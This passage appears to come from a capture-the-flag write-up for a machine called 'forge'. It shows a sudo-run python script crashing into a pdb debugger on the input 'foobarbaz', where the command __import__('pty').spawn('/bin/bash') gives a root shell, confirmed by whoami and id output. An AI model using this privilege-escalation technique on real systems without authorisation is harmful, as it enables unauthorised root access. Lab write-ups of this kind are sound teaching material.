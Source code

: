 After `foobarbaz` was entered, a python debug shell was opened in tmux window one. Here, the attacker can run arbitrary python commands. This will be used to drop a bash shell as root.
```
# tmux window one

user@forge:~$ sudo /usr/bin/python3 /opt/remote-manage.py
Listening on localhost:24112
invalid literal for int() with base 10: b'foobarbaz'
> /opt/remote-manage.py(27)<module>()
-> option = int(clientsock.recv(1024).strip())
(Pdb) __import__('pty').spawn('/bin/bash')
root@forge:/home/user# whoami
root
root@forge:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
root@forge:/home/user#
```
